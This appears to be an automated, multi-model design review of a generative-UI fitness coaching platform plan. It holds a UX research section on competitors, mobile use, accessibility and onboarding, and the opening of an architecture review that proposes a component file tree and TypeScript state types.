- https://vertexaisearch.cloud.google.com/grounding-api-redirect/AUZIYQEHXbx8s4ESs3pGAVStl_P8vD-K0RJu0fFfXKQz1EY9JTzkgsgBYVpYg7VJ9sIF9TZ2s9GvnQ63FAEjqEqUwAZjuzBgC5X3djvgGitc2chahN1iuH-8L_CE65EKaD2wlqYdaSkAZe51JvzUtbSbntAN6xAVr4jPhrod-IhPkyQTv6BiEJ1KYMlhKQKLKZ6AG6LKhQ_Ix4e_2bKA3uXTp52YIw==
- https://vertexaisearch.cloud.google.com/grounding-api-redirect/AUZIYQGsAbWannsn7iG9ZfzHEt0kOTcY0dnzbxRRmrr5SQ4-1Qo-ZUaERs5z0JwUKnKPGNqssmoDXXkSqddHmibHm86IVeiCpf_rMO6jU_Ep0oecVMt8gokC0WOlFWsd3fen-8cszQD4WqtdtaHUU3gC
- https://vertexaisearch.cloud.google.com/grounding-api-redirect/AUZIYQEyrgNS00r3VJjUbXdTEEeo_payOMSHr_-wXrnxuHsV9AG3CEozbS4P69aj8hus1B1s3wooe83DkFg_rhsB-SFEcTzbGHxh03PRbBB6wRjjcqDlTQWwnJfhZO9d9ENWbsy3W-Q=
- https://vertexaisearch.cloud.google.com/grounding-api-redirect/AUZIYQGqAzi1rMTnl_if_rBdySg3fkTD89KC9paSlIvxC95LwYyHf327t_nwE8eXAIR-lKe8oxfnDNflI5EEf6-ZLLl37KwwMpj-zR0vz44GWxwrhZvFYAN_dEeYcJKv8cPlLdAbWvQg7b54fX2m1gEhcNgfLlo3QQ==
- https://vertexaisearch.cloud.google.com/grounding-api-redirect/AUZIYQF2SataFcBFV0ebzAYlmP6Q03BkXrH2k4BwG_LU-LdcdAkqgYeYOxCFyO2ZJJjKrxjQxHcaCEZg2GAnxABGj20okA7MvfoyAVtyl0IfODwGpHPiF-IxvDO6x8f1w_pjcptCZAfnIfi8kCYQXd3vQp-dCg7_pXn7dQ==
- https://vertexaisearch.cloud.google.com/grounding-api-redirect/AUZIYQFLxHe4qxBtyQkwpn5IHA83LVzlR5Y_ThFHQ8pn-HxOv1cA4ODa4iLOXI-hMQ4ykNBXYyu3zH7JOk2oEOp_mpR9nlMtY2IQ4KgaGqWMOsUnAshOscWPZZDJ31ZWNDuohO8Pb-Rk2LL_UjGLxXu_WkQy
- https://vertexaisearch.cloud.google.com/grounding-api-redirect/AUZIYQF_yzg3oAOwluZcuzOv1QIg9W0_0-RJHVFfG7DeR8ibr7fi4a22-VwYeE7tRUKN20s5QrwtJWv8TP63pKslMJM9BGzpxzSgxvvAhJk1efqpmPQuz8TC0R3kaYJloZJxtWZesfpGQUGAwAx0WW3Jv9Wz
- https://vertexaisearch.cloud.google.com/grounding-api-redirect/AUZIYQHiu9HxxKhmwb6tOnqtCG66rqxf2HdxO7KTzRvJf-WkH99TbVv3_H7L3G9rwhDNUoHr8Pap_PwiJUrfNtfsXGO4gSulnbneOC6ORvdg1tP5aksFUrU4Q4An0n6TIPEpLSFIFxXcztjjqMkFE42uBfzaSwdrQTIi71d6ngLS9V4NH4uA7KE=
- https://vertexaisearch.cloud.google.com/grounding-api-redirect/AUZIYQEMEO4xbNQT7gW2Cue638tGWgyI-AmoZtwcB7X15A1BdMA2WSAVbQwTHkZcTBpXabYjZitUlNHwH3BUS02z_-_mfdAzYfePUtqZYaCI0EAmcvhGoipiA4vwwScxGwewt8BlSBU_Sh0LbD0ylyXl5wgzuBSMlq8Du3xO4dIzZQJAGmUxUMI=
- https://vertexaisearch.cloud.google.com/grounding-api-redirect/AUZIYQFtnOeYtr8w49iSgAkY_deAXGK3zKGDlp4MYUrWmrwj6grvXldkAuCTwFMWU4IFchkDv6i-DVB4ie1PLA37Sbc98L6jWr-xtL74mlRD7BYxK7w-Axg8P0-6E1sd8oivANmBa4DBNG0HtT1Ku5xfM8iggN6_7XbG09i6RhzRAyiDIvlvOXZmdlUe79MvItWwCd_0XA==
- https://vertexaisearch.cloud.google.com/grounding-api-redirect/AUZIYQGtuDTzuSNsFj2EX1dZdEaHBhBKvTIDJzWyv_cm35kgqL61kqSJdCb8UcqPPLV29k7VI2fgzgL-lgonp4Vnxpv6uSU-utiqOyYSp1vi6GZbecVe4L1QtPZZ8-EH3xRIfq6mXCfPVoQvmqry1QGjYgCyac3JwDdtcl6Tz3NPZKxAN7ps5l-kHvJT7Yaip7_cSNOOgo60y85mg7ZItu5qjZVJD8o=
- https://vertexaisearch.cloud.google.com/grounding-api-redirect/AUZIYQG7MZE3QMpTWoULgg4qLN6RCUrddBt9WAhHtgNvQHaih8wqZsk8Lo_Romz7QEBK4spFwuiX4A0gSiQMaByCVfrQjBI-XfqlFT8VbKV1Ucv8UOV246praWFAwgnlg_Godlr7HkeP2LFOFHork56cBQzt
- https://vertexaisearch.cloud.google.com/grounding-api-redirect/AUZIYQHSi07G3eaDNX-8JyyA-U86E3QfwC0wI4cdtyOwm3c9sJfGY7FLslJ95g2v2RQ6HPmpUTVSwelm5IgKKSkw_gwalxtOWoPyCTWkdR_oUP0GP6W09ApmZiN1buMg0rK7iMNd4W-p5tOt85NkP6kkVkn0MJFV-VOt
- https://vertexaisearch.cloud.google.com/grounding-api-redirect/AUZIYQGv9EPHh2cnTxwwtFH0oKsH8s9nIjx9A8vrtm2YGHXfzaxT3p3vTEng0MczK6trdBbMy9ZjcIAbyEOX3FbBnh3WOLD_2AaRlOBi78XSg_ypP1kwjaz3kvpLnDqpQdRFOv0t5UOeij4RhxzEhw==
- https://vertexaisearch.cloud.google.com/grounding-api-redirect/AUZIYQELkI2L03HiPc9v8DGo9coVggXO2xUhI6ZgA1rlnfXXGPvjxJsuiuSegOhbgpLrNTmbPk6TFro-8HkDV4j0imSSvaTZ88EgkDohaHbzMEmOm8wATV6HzrdB81WPCN-2KAurK6ZRbx6-ZsFD12FSgqRzNRZmlIWWuxW9nfu2Uakt6txce44=

---

## [PASS] UX Research & Competitor Analysis
**Model:** google/gemini-2.5-flash | **Duration:** 47.8s | **Web Research:** 50 sources cited

## UX Research Insights for the Inception Canvas / Lens Foundry

This review provides UX research insights for the "Inception Canvas / Lens Foundry" plan, focusing on its application as a premium fitness SaaS platform (SwanStudios Lens). The analysis covers competitor benchmarks, user journey gaps, mobile-first critique, interaction patterns, accessibility risks, onboarding strategies, and relevant 2026 UX trends.

---

### 1. Competitor Benchmark

**Insight:** Leading fitness SaaS platforms prioritize intuitive workout logging, comprehensive progress tracking, and robust client communication. While none offer a "Generative UI" or "morphing canvas" as described, they excel in personalized content delivery, data visualization, and seamless transitions between different app sections or client views. The "Enchanted Apex: Crystalline Swan" theme and advanced animation capabilities of the Inception Canvas could offer a unique, premium aesthetic differentiator if executed flawlessly.

**Key Competitor Features & Interaction Patterns:**

*   **Workout Building & Logging:**
    *   **Hevy, Strong, JEFIT, My PT Hub, TrueCoach, Caliber, Future.fit:** All provide intuitive interfaces for building and logging workouts, often with extensive exercise libraries, video demonstrations, and the ability to create custom exercises.
    *   **Interaction Pattern:** Drag-and-drop workout builders (TrueCoach), quick-add exercise features, auto-filling previous weights/reps (Hevy, Strong), and in-workout rest timers (Hevy, Strong).
    *   **Recommendation:** The SwanStudios Lens should offer a highly efficient, "one-tap" or "quick-add" logging experience, leveraging the generative UI to anticipate trainer needs (e.g., suggesting next exercises based on client history or current workout phase).
*   **Progress Tracking & Analytics:**
    *   **Hevy, Strong, JEFIT, Strava, Caliber, My PT Hub, TrueCoach, Future.fit:** Offer visual progress tracking through charts (volume, 1RM, body measurements), personal best notifications, and historical data views.
    *   **Interaction Pattern:** Interactive charts with drill-down capabilities, clear visual cues for personal records, and customizable reports. Strava's "Matched Activities" allows comparing current efforts with previous ones on the same routes.
    *   **Recommendation:** Leverage Victory charts for rich, interactive data visualizations that seamlessly "morph" to show different metrics or timeframes. The generative UI could proactively highlight key client progress or areas needing attention.
*   **Client Communication & Management:**
    *   **TrueCoach, My PT Hub, Caliber, Future.fit:** Provide in-app messaging, client profiles, progress tracking, and automated check-ins.
    *   **Interaction Pattern:** Dedicated messaging interfaces, notification systems, and dashboards that provide an overview of client activity.
    *   **Recommendation:** The "chat↔app" morph could be a powerful pattern for trainers to quickly switch between client communication and workout adjustments. The Trust Layer for T3/T4 actions (e.g., payment approvals) should be integrated smoothly into the communication flow.
*   **Personalization & Adaptive Experiences:**
    *   **Future.fit, Caliber, TrueCoach:** Offer personalized workout plans, nutrition targets, and coaching based on user goals and data. Strava uses "Athlete Intelligence" for personalized summaries.
    *   **Recommendation:** The Inception Canvas's "intent-driven Generative UI" is a direct answer to this trend. The SwanStudios Lens should leverage AI to dynamically adapt the interface and content based on the trainer's current task and the client's real-time needs.

**Priority:** CRITICAL

---

### 2. User Journey Gaps (Trainer using phone at the gym)

**Insight:** The "Inception Canvas" introduces a novel paradigm of "morphing" and "Generative UI." While powerful, this fluidity could lead to disorientation or frustration for a trainer in a fast-paced gym environment if not carefully designed. The reliance on AI for intent interpretation and UI construction presents a potential point of failure or delay.

**Gaps & Frustrations:**

*   **Initiating a Morph / Expressing Intent:**
    *   **Gap:** How does a trainer explicitly tell the system to "morph" or express their intent (e.g., "Show me Client X's next workout," "Adjust Client Y's reps for this exercise," "Review Client Z's form video")? If it's purely voice-driven, what about noisy gyms or privacy concerns? If it's text, is it efficient enough?
    *   **Frustration:** Ambiguous intent interpretation by the AI leading to incorrect morphs or irrelevant interfaces. Delays in morphing (even 600-900ms could feel long if a trainer needs quick information).
*   **Maintaining Context During Morph:**
    *   **Gap:** The plan mentions a "Totem" for spatial continuity. However, if the entire canvas morphs, how does the trainer retain mental models of where they are in the application hierarchy, especially when switching between vastly different "Lenses" or contexts (e.g., SwanStudios Lens to a hypothetical "Admin Lens")?
    *   **Frustration:** Feeling lost or disoriented after a morph, requiring extra cognitive load to re-establish context.
*   **Accessing Specific Client Data / Workout Plans:**
    *   **Gap:** In a generative UI, how does a trainer quickly navigate to a specific client's profile, a particular workout, or a historical data point without relying on a predefined navigation structure?
    *   **Frustration:** Having to re-state intent or navigate through multiple AI-generated screens to find specific information, especially under time pressure.
*   **AI Misinterpretation / Fallback:**
    *   **Gap:** What happens when the AI misinterprets a trainer's intent or fails to generate a suitable interface? Is there a clear "undo" or "fallback to static UI" mechanism?
    *   **Frustration:** Being stuck in an unhelpful or incorrect generative UI loop, leading to a loss of trust in the system.
*   **T3/T4 Actions (Trust Layer) on the Go:**
    *   **Gap:** Approving sensitive actions (e.g., payments, sending files) in a gym setting might be cumbersome if it requires multi-step authentication or complex UI interactions.
    *   **Frustration:** Interruptions to workflow for security approvals that feel overly complex or time-consuming.
*   **Offline Functionality / Network Dependency:**
    *   **Gap:** The "Voice/intent → API orchestration → state document → render" flow implies a strong reliance on network connectivity and backend AI processing. Gyms often have spotty Wi-Fi.
    *   **Frustration:** Inability to access or modify client data, log workouts, or use the generative UI due to poor network, rendering the app unusable. Hevy offers basic offline logging.

**Recommendations:**

*   **Intent Input:** Implement multimodal input (voice, text, quick gestures/taps on "smart buttons" within the Totem) with clear visual feedback on AI interpretation. Provide a "command palette" or "smart search" accessible via the Totem.
*   **Predictive Morphing:** Leverage AI to *predict* the trainer's next likely action and pre-load or subtly suggest relevant morphs, reducing explicit intent input.
*   **Visual Breadcrumbs & History:** Beyond the Totem, incorporate subtle visual cues (e.g., a mini-map of recent morphs, a "back" gesture that clearly indicates the previous context) to aid navigation and reduce disorientation.
*   **"Lens" Overview:** Provide a clear, accessible "Lens switcher" or dashboard that allows trainers to quickly jump to different Lenses or saved states, bypassing generative UI if needed.
*   **Robust Fallback:** Design clear error states and a graceful fallback to a static, pre-defined UI for critical functions if AI interpretation fails or network is unavailable.
*   **Streamlined Approvals:** For T3/T4 actions, optimize for mobile-first, minimal-tap approval flows, potentially using biometric authentication.
*   **Offline-First for Core Features:** Prioritize offline capabilities for essential functions like viewing client profiles, logging workouts, and accessing basic workout plans within the SwanStudios Lens. Sync data when connectivity is restored.

**Priority:** CRITICAL

---

### 3. Mobile-First Critique

**Insight:** The plan's emphasis on a "7-section semantic structure," "12-col ultra-fine grid," and "4K-crisp throughout" needs careful consideration for 320-375px screens. While the "mobile-first" principle is stated, the generative and morphing nature of the UI could easily lead to desktop-biased designs if not rigorously constrained. Mobile-first design prioritizes essential content, intuitive navigation, and touch-friendly interactions on limited screen space.

**Flags for Desktop-Biased Designs:**

*   **Information Density:** A "7-section semantic structure" and "12-col ultra-fine grid" might encourage designers to pack too much information onto a single screen, leading to clutter and poor readability on small mobile displays. Mobile-first design emphasizes content prioritization and minimizing clutter.
    *   **Risk:** Overwhelming visual complexity, especially during morphs, making it difficult for trainers to quickly scan and absorb information.
*   **Morphing Complexity:** While "600-900ms, spring/expo easing, 4K-crisp" sounds impressive, complex morphs involving many DOM nodes or intricate interpolations could feel jarring or slow on less powerful mobile devices, even if technically within the budget.
    *   **Risk:** Performance issues, battery drain, and a perception of sluggishness on mid-range phones.
*   **"Totem" Placement and Size:** A persistent anchor element needs to be carefully designed to not obstruct critical content or feel intrusive on small screens.
    *   **Risk:** The Totem consuming too much valuable screen real estate or being difficult to interact with using a thumb.
*   **Gesture Overload:** The "Morph Grammar" (zoom, flip, fold, crystallize) implies a rich set of gestures. While powerful, too many unique gestures can be hard to learn and remember, especially for new users or in a high-pressure environment like a gym.
    *   **Risk:** Cognitive overload and accidental triggers of unintended morphs.
*   **Input Fields for Intent:** If intent is primarily text-based, typing on a small phone keyboard in a gym setting can be cumbersome.
    *   **Risk:** Slow and error-prone data entry.
*   **Victory Charts on Small Screens:** While Victory charts are powerful, ensuring they are legible, interactive, and don't require excessive pinching/zooming on 320-375px screens is crucial.
    *   **Risk:** Charts becoming unreadable or difficult to interact with.

**Recommendations:**

*   **Content-First Prioritization:** For each Lens, rigorously identify the absolute essential information and actions for mobile. Use progressive enhancement, starting with the core mobile experience and adding complexity for larger screens.
*   **Adaptive Layouts:** The "12-col ultra-fine grid" must be highly flexible, collapsing or re-ordering content intelligently for small viewports. Card-based layouts are effective for mobile scanning.
*   **Simplified Morphing for Mobile:** While the full 4K-crisp morph is a vision, consider a "lite" version of morphing for mobile that prioritizes speed and clarity over elaborate animations, especially on mid-range devices. Reduced motion settings should be respected by default.
*   **Thumb-Friendly Totem:** Design the Totem for easy one-handed thumb interaction, potentially as a floating action button (FAB) or a bottom navigation bar element that can be minimized.
*   **Contextual Input:** Prioritize voice input (with clear visual transcription) and quick-select options for expressing intent on mobile.
*   **Optimized Charting:** Ensure Victory charts are designed with mobile legibility in mind, offering simplified views or interactive elements that respond well to touch gestures. Consider horizontal scrolling for detailed data tables if necessary, but avoid it for primary navigation.
*   **44px Min Touch Targets:** Strictly enforce the 44px minimum touch target rule for all interactive elements, including dynamically generated ones.

**Priority:** CRITICAL

---

### 4. Interaction Patterns

**Insight:** The "Generative UI" and "morphing" concept requires defining new, intuitive interaction patterns that feel natural and predictable, even as the interface changes. These patterns should be consistent with real-world top apps to minimize cognitive load.

**Suggested Interaction Patterns for New UI Elements:**

*   **Intent Input (Voice/Text/Gesture):**
    *   **Pattern:** A persistent "Totem" (command bar/orb) acts as the primary entry point.
        *   **Voice:** Tap the Totem once to activate voice input (microphone icon appears, waveform animation). Tap again or say "cancel" to dismiss.
        *   **Text:** Long-press the Totem or swipe up to reveal a text input field (similar to a universal search bar or chat input). Auto-suggest and predictive text should be highly integrated.
        *   **Quick Gestures:** Swipe on the Totem (e.g., left for "back," right for "next client," up for "new task") to trigger common intents.
    *   **Real-world examples:** Voice assistants (Siri, Google Assistant), universal search bars (Notion, Linear), floating action buttons (FABs) in many apps.
*   **Morph Initiation/Control:**
    *   **Pattern:** The morph should be a direct consequence of expressed intent.
        *   **Implicit:** After expressing intent (voice/text), the UI smoothly transitions (morphs) to the most relevant Lens/view.
        *   **Explicit (for options):** If multiple interpretations of intent exist, a small, temporary overlay or carousel of "suggested morphs" appears near the Totem, allowing the user to tap to select.
        *   **"Crystallize" (become a different app):** A distinct, deliberate gesture or button within the Totem (e.g., a "Lens Switcher" icon) to explicitly choose a different application context.
    *   **Real-world examples:** App transitions (e.g., opening a link in a new tab/view), contextual menus, multi-tasking interfaces.
*   **Totem Interaction:**
    *   **Pattern:** The Totem should be draggable to reposition (within safe zones) to accommodate different hand grips or content. Tapping it once could reveal a mini-menu of common actions (e.g., "Home," "New Client," "Settings").
    *   **Real-world examples:** Facebook Messenger chat heads, assistive touch buttons on iOS.
*   **Approval for T3/T4 Actions (Trust Layer):**
    *   **Pattern:** A clear, modal approval dialog appears, explicitly stating the action, its implications, and requiring a distinct confirmation (e.g., a large, clearly labeled "Approve" button with a secondary "Cancel" or "Review Details" option). Biometric authentication (Face ID/Touch ID) should be integrated for speed and security.
    *   **Real-world examples:** Banking apps for transaction approvals, app store purchase confirmations.
*   **Navigation within a Lens/After a Morph:**
    *   **Pattern:** Standard mobile navigation patterns should be used within a specific Lens (e.g., bottom navigation for primary sections, tab bars, clear back buttons). The "back-button rewinds" feature is crucial.
    *   **Real-world examples:** Instagram's bottom navigation, iOS/Android system back gestures.

**Recommendations:**

*   **Consistent Totem Behavior:** Ensure the Totem's appearance, placement, and interaction cues are consistent across all Lenses and morph states.
*   **Visual Feedback for Intent:** Provide immediate, subtle visual feedback (e.g., a pulsing glow around the Totem, a brief text interpretation) when intent is registered, even before a morph begins.
*   **Progressive Disclosure of Morph Grammar:** Introduce the "Morph Grammar" (zoom, flip, fold, crystallize) gradually through subtle animations and optional tooltips, rather than expecting users to learn them all at once.
*   **Prioritize Direct Manipulation:** Where possible, allow trainers to directly manipulate elements within the UI (e.g., drag to reorder exercises, tap to edit values) rather than relying solely on AI interpretation.

**Priority:** HIGH

---

### 5. Accessibility Risks

**Insight:** The dynamic and generative nature of the Inception Canvas, while innovative, introduces significant accessibility challenges beyond standard static web applications. Adherence to WCAG 4.5:1 contrast and "reduced-motion safe" is a good start, but the fluidity of the UI requires deeper consideration. AI can assist with accessibility (e.g., alt text generation), but hidden AI activities can confuse screen readers.

**Accessibility Risks:**

*   **Screen Reader Compatibility with Generative UI:**
    *   **Risk:** When the UI morphs, the DOM structure changes dynamically. Screen readers might struggle to maintain a consistent reading order, announce changes clearly, or correctly identify new elements and their context. Focus management during morphs is critical.
*   **Keyboard Navigation:**
    *   **Risk:** Dynamically generated interfaces can break logical tab order, making keyboard navigation difficult or impossible. Ensuring all interactive elements are reachable and operable via keyboard, and that focus is managed correctly during transitions, is a complex task.
*   **Color Contrast for Swappable Themes:**
    *   **Risk:** With "18 swappable themes" and a dark-first approach, maintaining WCAG 4.5:1 contrast ratio across all possible text, icon, and interactive element combinations for every theme is a massive undertaking. The specified palette (Midnight Sapphire, Royal Depth, Ice Wing, Arctic Cyan, Gilded Fern, Frost White, Swan Lavender, Wing Purple, Obsidian Black, Carbon, Graphite) needs rigorous testing. The "Dual-Button Glow" also needs contrast checks.
*   **Morphing Animations and Motion Sickness:**
    *   **Risk:** While "reduced-motion safe" is a requirement, the inherent nature of "morphing" (zoom, flip, fold, crystallize) involves significant motion. Users with vestibular disorders or motion sensitivity could experience discomfort even with reduced motion if the core concept is still highly dynamic.
*   **Semantic Structure and ARIA Attributes:**
    *   **Risk:** The "7-section semantic structure with `data-morph` anchors" is a good foundation, but generative UI might not always produce semantically correct HTML, potentially leading to screen reader confusion if ARIA roles and properties are not correctly applied and updated dynamically.
*   **Time Limits for Approvals (Trust Layer):**
    *   **Risk:** If T3/T4 actions have time-sensitive approval windows, users with cognitive disabilities or those relying on assistive technologies might not have enough time to understand and respond.

**Recommendations:**

*   **Rigorous A11y Testing for Dynamic Content:** Implement automated and manual accessibility testing (including screen reader testing) at every stage of the generative UI development. Focus on focus management, dynamic content announcements, and consistent semantic structure during and after morphs.
*   **Semantic HTML & ARIA by Default:** Ensure the AI-generated components and layouts prioritize semantic HTML5 elements and correctly apply ARIA roles, states, and properties.
*   **Automated Color Contrast Checks:** Integrate automated tools into the design system and development pipeline to verify WCAG 4.5:1 contrast for all theme combinations and UI states. Provide clear guidance on acceptable color pairings for the "Dual-Button Glow."
*   **Comprehensive Reduced Motion Strategy:** Beyond simply disabling animations, consider alternative, static representations of morphing (e.g., a cross-fade or instant switch) for users who prefer reduced motion. Offer granular control over animation preferences.
*   **Keyboard-First Design:** Develop and test all interactions with keyboard navigation as a primary input method. Ensure logical tab order and visible focus indicators are maintained across all morphs.
*   **Flexible Time Limits:** For T3/T4 approvals, allow users to extend time limits or remove them entirely if needed, adhering to WCAG guidelines for timing.
*   **Accessibility Statement & Feedback:** Provide a clear accessibility statement and an easy way for users to report accessibility issues.

**Priority:** CRITICAL

---

### 6. Onboarding for New Features

**Insight:** Introducing a fundamentally new paradigm like the "Inception Canvas" and "Generative UI" to existing SwanStudios users requires a thoughtful and progressive onboarding strategy. Best-in-class onboarding focuses on showing value quickly, guiding users through core functionalities, and providing contextual help. Duolingo, Notion, and Linear are known for their effective onboarding.

**Onboarding Strategies & Recommendations:**

*   **Progressive Disclosure:**
    *   **Strategy:** Don't overwhelm users with the full complexity of the Inception Canvas immediately. Introduce the "morphing" concept and generative UI capabilities gradually.
    *   **Recommendation:** When existing SwanStudios users first encounter the Inception Canvas, start with a familiar "SwanStudios Lens" that looks and feels similar to their current experience. Introduce the "Totem" and its basic functions (e.g., "Ask me anything about your clients") with a subtle, non-intrusive tooltip or guided tour.
*   **Interactive Walkthroughs & Micro-Tutorials:**
    *   **Strategy:** Guide users through the core "morphing" experience with hands-on examples.
    *   **Recommendation:** Create short, interactive tutorials that demonstrate a simple morph (e.g., "Tap here to see Client X's progress report," then the UI morphs). Use "hotspots" or "coach marks" to highlight new UI elements like the Totem and explain their purpose in context.
*   **Benefit-Oriented Messaging:**
    *   **Strategy:** Clearly articulate the value proposition of the generative UI and morphing for trainers (e.g., "Faster access to client data," "Personalized workflows").
    *   **Recommendation:** Use concise, benefit-driven language in onboarding messages. For example, "The Inception Canvas learns your needs, morphing to give you the exact tools you need, when you need them."
*   **Empty States with Guidance:**
    *   **Strategy:** When a new Lens or a generative UI section is empty (e.g., no data yet), provide clear instructions on how to get started.
    *   **Recommendation:** For a new client in the SwanStudios Lens, the generative UI could suggest initial actions like "Create first workout," "Set nutrition goals," or "Schedule check-in," with direct links to initiate these actions.
*   **Contextual Help & "Ask Me Anything":**
    *   **Strategy:** Provide easy access to help and support within the new interface.
    *   **Recommendation:** The Totem itself could serve as a "Help" button, allowing users to ask questions about the new features or how to perform specific tasks within the generative UI. A searchable knowledge base integrated into the Totem's intent input.
*   **"What's New" Section & Release Notes:**
    *   **Strategy:** Clearly communicate new features and changes to existing users.
    *   **Recommendation:** A prominent "What's New" section upon first login after the upgrade, with short videos or interactive demos of the Inception Canvas.

**Real-world examples:**

*   **Duolingo:** Gamified onboarding, progressive introduction of features, immediate feedback.
*   **Notion:** Interactive templates, contextual tooltips, and a strong focus on showing how to build and customize.
*   **Linear:** Minimalist design, clear empty states with actionable suggestions, and a focus on efficiency.

**Priority:** HIGH

---

### 7. 2026 UX Trends

**Insight:** The Inception Canvas is well-aligned with several cutting-edge UX/UI trends for 2026, particularly in AI-driven and adaptive interfaces. The focus on "Generative UI" and "agentic systems" positions SwanStudios at the forefront of these developments.

**Relevant 2026 UX/UI Trends:**

*   **AI-Driven Personalization & Adaptive Interfaces:**
    *   **Trend:** AI is becoming the UX baseline, shifting design from static screens to intent-aware, adaptive journeys that work consistently at scale. Interfaces reorder based on habits, and systems build screens on demand based on user goals.
    *   **Relevance:** The Inception Canvas's "intent-driven Generative UI" directly embodies this trend, constructing interfaces around the user's need in the moment. This is a critical differentiator.
*   **Agentic Systems & Delegative UI:**
    *   **Trend:** AI is evolving from passive tools to active "Agentic Systems" that plan, execute, and iterate on tasks autonomously. The shift is from "Conversational UI" (asking an AI a question) to "Delegative UI" (assigning an AI a goal).
    *   **Relevance:** The "AI Operating System shell" and "Hermes" agent driving the Canvas align perfectly with this. The "Trust Layer" for T3/T4 actions is crucial for user confidence in delegating tasks to agents.
*   **Zero-Click Interfaces (Emerging):**
    *   **Trend:** UIs will become so proactive and context-aware that they anticipate user needs, completing multi-step tasks with minimal physical input.
    *   **Relevance:** While not fully "zero-click," the Inception Canvas's goal of constructing interfaces around user intent moves towards this. Predictive morphing could be a step in this direction.
*   **Motion as Language & Micro-interactions:**
    *   **Trend:** Sophisticated, meaningful animations and micro-interactions enhance user understanding and delight.
    *   **Relevance:** The "Morph Grammar" (zoom, flip, fold, crystallize) is a direct application of this trend, aiming for consistent, learnable motion that conveys meaning. Framer Motion and View Transitions API are excellent choices for this.
*   **Hyper-Personalized User Experiences:**
    *   **Trend:** Beyond basic personalization, AI enables deeply tailored experiences that adapt to individual user behavior and preferences in real-time.
    *   **Relevance:** The "Lens = 'generate once, replay forever, regenerate on demand'" model supports this, allowing for highly customized and versionable experiences.
*   **Accessibility as a Core Design Standard:**
    *   **Trend:** Accessibility has moved from compliance to a core design standard, improving usability and influencing product credibility. AI can help with accessibility features like alt text and layout adjustments.
    *   **Relevance:** The plan's explicit mention of WCAG 4.5:1 and reduced-motion safe aligns with this, but the generative nature requires extra vigilance (as noted in section 5).
*   **Dark Mode & Theming:**
    *   **Trend:** Dark modes and extensive theming options remain popular for user preference and reduced eye strain.
    *   **Relevance:** The "dark-first, 18 swappable themes via a theme toggle" and custom CSS properties are perfectly aligned with this trend, offering extensive personalization.

**Recommendations:**

*   **Embrace the "Delegative UI" narrative:** Frame the Inception Canvas as a tool that empowers trainers to delegate tasks and focus on coaching, rather than just a dynamic interface.
*   **Refine Morph Grammar:** Continuously test and refine the "Morph Grammar" to ensure it is truly learnable and intuitive, avoiding "muscle memory" disruption.
*   **Showcase AI's Value:** Clearly communicate how the AI is interpreting intent and generating interfaces, building trust and transparency.
*   **Prioritize Performance:** The "600–900ms, 4K-crisp" morph budget is ambitious but critical for a premium feel. Invest heavily in performance optimization to ensure the cutting-edge animations feel fluid, not sluggish.

**Priority:** HIGH

---

## [PASS] Architecture & Component Design
**Model:** anthropic/claude-4.6-sonnet-20260217 | **Duration:** 83.3s

# Architectural Review: Inception Canvas / Lens Foundry Build-Out Plan

> **Reviewer note:** This plan is a *product + feasibility* document, not yet a technical implementation spec. It describes intent, open decisions, and a design corpus — it does **not** propose specific files, components, hooks, or data-flow diagrams. The review below therefore operates at two levels: (1) evaluating the architectural *claims* embedded in the plan against production React/TypeScript standards, and (2) flagging the structural gaps that must be resolved before any coding agent can execute this safely.

---

## Executive Summary

The plan contains a genuinely defensible core invention (the Morph Contract / isomorphic skeleton) and a coherent business decomposition. However, **it is not build-ready**. The rendering stack section makes performance claims that are unverified on real hardware, the state model is undefined, and there is no component decomposition at all — meaning a coding agent handed this document would have to invent the entire architecture from scratch, which is exactly the "rework" the plan says it wants to avoid.

**Overall readiness: 2/5 — Concept-proven, architecture-unspecified.**

---

## Finding 1 — Component Decomposition

| Field | Value |
|---|---|
| **Severity** | 🔴 Critical |
| **Location** | Entire plan — Section 4 "Rendering stack" |
| **Issue** | Zero component decomposition exists. The plan names the Engine, Lenses, Registry, Totem, and Canvas as concepts but never maps them to React component boundaries. A coding agent will invent conflicting decompositions across sessions, producing an unmergeable codebase. The "Component Registry" is mentioned as a core Engine asset but its shape (static import map? dynamic `React.lazy` registry? server-driven component manifest?) is never specified. |
| **Recommended Fix** | Before any build session, produce a `COMPONENTS.md` that specifies at minimum: |

```
lens-foundry/
  src/
    engine/
      MorphCanvas.tsx          # root shell, owns morph state machine
      MorphRouter.tsx          # URL ↔ Lens state sync
      ComponentRegistry.ts     # { [id: string]: React.LazyExoticComponent }
      TrustGate.tsx            # wraps T3/T4 actions, approval modal
    totem/
      Totem.tsx                # persistent command bar/orb
      TotemCommandInput.tsx    # voice/text intent entry
    lens/
      LensRenderer.tsx         # reads Lens JSON → assembles registry components
      LensLoader.tsx           # fetch/cache Lens document
      useLens.ts               # data hook: load, snapshot, version
    morph/
      useMorphState.ts         # state machine hook (idle→morphing→settled)
      MorphTransition.tsx      # Framer Motion layout group + View Transitions bridge
      morphGrammar.ts          # zoom/flip/fold/crystallize easing configs
    trust/
      useTrustTier.ts          # derives T0–T4 from component metadata
      AuditReceipt.tsx         # renders audit trail for T3/T4 actions
    grid/
      GridShell.tsx            # 12-col ultra-fine grid, CSS custom props only
```

Each file must stay under 300 lines. `MorphCanvas.tsx` is the highest risk for bloat — it will need to be kept as a pure orchestrator with zero render logic of its own.

---

## Finding 2 — State Management

| Field | Value |
|---|---|
| **Severity** | 🔴 Critical |
| **Location** | Section 4 — "state document (JSON)" and Open Decision #4 |
| **Issue** | The plan correctly identifies the Lens JSON as the central state artifact but leaves its schema entirely open. This is the single most dangerous gap. Without a versioned schema, every hook, every component, and every agent prompt will assume a different shape. The plan also describes three concurrent state concerns that will collide if not separated: (a) **morph animation state** (which transition phase are we in), (b) **Lens document state** (what is the current assembled UI), (c) **intent/session state** (what did the user ask for, what APIs fired). If these live in one store, any intent update will trigger a full morph re-render. |
| **Recommended Fix** | Define three isolated state domains before writing a single hook: |

```typescript
// 1. Morph State Machine — lives in useMorphState.ts
type MorphPhase = 'idle' | 'intent-received' | 'lens-loading' 
                | 'morphing' | 'settled' | 'error';

interface MorphState {
  phase: MorphPhase;
  fromLensId: string | null;
  toLensId: string | null;
  startedAt: number | null;
}

// 2. Lens Document — lives in useLens.ts, NEVER mixed with morph phase
interface LensDocument {
  id: string;
  version: string;           // semver — migration path required
  schemaVersion: number;     // integer bump for breaking changes
  sections: LensSectionMap;  // keyed by data-morph anchor id
  tokens: LensTokenMap;      // the 9 CSS custom properties
  components: LensComponentRef[];
}

// 3. Session/Intent — lives in useSession.ts, isolated from render
interface SessionState {
  rawIntent: string;
  resolvedLensId: string | null;
  apiCallLog: ApiCallRecord[];
  trustContext: TrustTierContext;
}
```

